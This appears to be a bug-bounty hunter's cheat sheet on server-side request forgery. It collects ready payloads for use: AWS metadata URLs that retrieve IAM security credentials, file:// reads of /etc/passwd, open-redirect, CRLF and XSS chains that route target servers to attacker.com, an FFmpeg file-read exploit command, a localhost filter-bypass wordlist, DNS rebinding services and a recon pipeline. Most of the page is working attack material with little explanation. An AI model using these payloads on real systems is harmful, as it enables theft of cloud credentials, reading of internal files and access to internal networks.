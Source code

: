 # SSRF

payload : `www.attacker.com/?`    <-- https://hackerone.com/reports/2442626

Use [[Certbot]] to make our http server to https to allow target website to ping our attacker hosted website.

SSRF via SVG file upload

Spider a domain in burpsuite. Payloads are at down
Search for `url=` `request=` `load=` `redirect=` `fetch=` `page=` `site=` `open=` `entry=` `target=` `Destination=` `Uri=` `file=`

### Blind SSRF

X-Forwarded-Host, X-Forwarded-For, X-HOST etc,

Add this header in the request followed by our attacker URL. 

it will send cookies, internal requests, IP. To our server.

SVG to SSRF `https://github.com/allanlw/svg-cheatsheet`

### AWS Meta Data Service 
SSRF -> AWS Metadata Service
https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html
`<iframe src="http://169.254.169.254/latest/meta-data/"></iframe>`
`<img src="file:///etc/passwd">`

```
http:// 169.254.169.254/latest/meta—data/
http://169.254.169.254/latest/user-data/
http://169.254.169.254/latest/meta—data/iam/security-credentials/IAM_USER_ROLE_HERE
http://169.254.169.254/latest/meta-data/iam/security-credentialsl/PhotonInstance
```

SSRF to Accessing Cloud Meta Data 

https://gist.github.com/jhaddix/78cece26c91c6263653f31ba453e273b

##### SSRF to LFI 

`file://etc/passwd`

Double Encode URL to avoid black listing ()

---
### URL Schemes to Check 

```
file://
dict://
sftp://
ldap://
ldaps://
ldapi://
tfpt://
gopher://
```

## Payloads

```
?dest={target} 
?redirect={target} 
?uri={target} 
?path={target} 
?continue={target} 
?url={target} 
?window={target} 
?next={target} 
?data={target} 
?reference={target} 
?site={target}
?html={target} 
?val={target} 
?validate={target} 
?domain={target} 
?callback={target} 
?return={target} 
?page={target} 
?feed={target} 
?host={target} 
?port={target} 
?to={target} 
?out={target} 
?view={target} 
?dir={target}
```

## SSRF Chaining

### Open redirect to SSRF 
find a file via bruteforce the URL parameter  chain with open redirect
```
example.com/ssrf.php?url=/redirect.php?url=//attacker.com
```

### SSRF to CRLF:
```
example.com/ssrf.php?url=/test%0d%0aHost:%20attacker.com
```

### SSRF to XSS

Host a file in attacker server or any where publicly, give that to make an XSS. (the file will contain XSS payload).

### SSRF to FFMPEG

if any Video upload functionality is there in the website we can exploit this.

https://github.com/neex/ffmpeg-avi-m3u-xbin

`./gen_xbin_avi.py file://<filename> file_read.avi`

### XSS + Open Redirect --> SSRF (internal access)

(this will more work in pdf generator feature)
From XSS `<iframe src=//attacker.com/test.php>` this won't work because of SOP. where `test.php` have  `<?php header('Location:file:///etc/passwd'); ?>`.

And if we found an Open redirect in the same, we can chain it with that XSS that can ping our attacker server.
`target.com/api/logout"redirTo=//attacker.com`  can be our open redirect

we can craft our XSS payload with `<iframe src=/api/logout?redirTo=//attacker.com/test.php></iframe>`. Now server renders iframe of its own origin gets redirect to attacker server which redirects to `file://etc/passwd`. 

## Bypassing restrictions from SSRF

localhost bypass wordlist
```
https://127.0.0.1/
https://localhost/
http://[::]:80/
http://[::]:25/ 
http://[::]:22/ 
http://[::]:3128/ 
http://[0000::1]:80/
http://[0000::1]:25/ 
http://[0000::1]:22/ 
http://[0000::1]:3128/ 
localtest.me	
localh.st	
spoofed.redacted.oastify.com
company.127.0.0.1.nip.io
http://127.127.127.127
http://127.0.1.3
http://127.0.0.0
http://2130706433/
http://3232235521/
http://3232235777/
http://2852039166/
http://0177.0.0.1/
http://o177.0.0.1/
http://0o177.0.0.1/
http://q177.0.0.1/
http://0/
http://127.1
http://127.0.1
http://① ② ⑦.⓿.⓿.①
```

Bypass using enclosed alphanumerics
https://qaz.wtf/u/convert.cgi

```
http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com

List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ ⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ ⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ ⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ ⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ ⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### DNS Rebinding

Application code has check for user input data and process if and only domain/IP is not black listed. We will bypass the blacklist with DNS rebinding.

The server will request to the DNS for the IP and it might get cached. So the rebinding host contains 2 DNS records with less TTL. so when we request for that URL multiple times some times it will point to the blacklisted IP(AWS/Localhost). Thus we bypassed the blacklist.

**Approach:** give an IP which is attacker controlled or any public which is allowed and other one is blacklisted (AWS/localhost) and generate such URL with below links.

https://lock.cmpxchg8b.com/rebinder.html
http://1u.ms/

http://make-1.2.3.4-rebind-169.254.169.254-rr.1u.ms

https://canarytokens.org/nest/


## From Wayback urls

```
cat all-inscope-domains.txt | waybackurls -dates | grep "https://" | grep "url=" | egrep -v "(.txt|.js|.svg|.jpeg|.jpg|.woff|.woff2|.eot|.css|.png|.ttf|.gif)
```
